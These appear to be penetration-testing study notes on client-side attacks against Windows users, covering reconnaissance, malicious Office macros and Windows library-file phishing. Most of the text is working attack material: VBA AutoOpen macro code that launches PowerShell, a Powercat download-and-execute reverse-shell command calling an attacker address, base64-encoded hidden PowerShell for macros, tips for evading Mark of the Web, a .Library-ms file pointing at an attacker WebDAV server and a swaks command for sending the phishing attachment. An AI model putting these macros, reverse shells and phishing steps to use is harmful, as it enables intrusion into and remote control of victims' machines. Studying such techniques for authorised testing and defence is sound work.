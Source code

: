 ```yaml
---
layout: blank
---
```


### Information Gathering

- **Metadata**
	- Examining metadata of company-created PDFs can be a good source of information
- theHarvester - searches for emails given a domain -d
- **Client Fingerprinting**
	- Canarytokens - tool that can fingerprint a computer from a link
		- This token grabs browser info, IP address, and OS info

### Attacking MS Office

- **MS Office Attack**
	- Can't send malware directly by email, so we need to get them to download the spreadsheet with macros from a link
	- Also need to "blur" the spreadsheet so victim clicks "Enable Editing" to allow macros
	- Avoid Mark of the Web (MOTW) by putting malware inside 7zip, ISO, IMG
- **MS Office Macros**
	- To make macros: View -> Macros
	- Basic macro code that opens powershell:
	
```
Sub AutoOpen()

  MyMacro

End Sub
Sub Document_Open()

  MyMacro

End Sub
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```

- Powercat
	- Creates reverse shells, but detected by defender
	- Command to download/execute the reverse shell: `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`
		- This is just grabbing a hosted powershell script
		- Powercat: 
	- Can be passed to the macro by encoding it in chunks of 50 base64 characters:
		- `Dim Str as String`
		- `Str = Str + "powershell.exe -nop -w hidden -enc {base64}"`
		- `Str = Str + {base64}"`
		- `CreateObject("Wscript.Shell").Run Str`

### Abusing Windows Library Files
- Windows library files are less well-known and can be equally effective
- Executing .Library-ms file into executing .lnk file
- These files display remote directories like local directories, where we put .lnk file
	- `pip3 install wsgidav` for a WebDAV server to host/serve files
	- usage: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root {directory}`  
- config.Library-ms file contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Sending a phishing email with the share:
	- `sudo swaks -t {to_email} -t {to_email} --from {from_email} --attach @config.Library-ms --server {mail_server} --body @body.txt --header "Subject: Staging Script" --suppress-data -ap`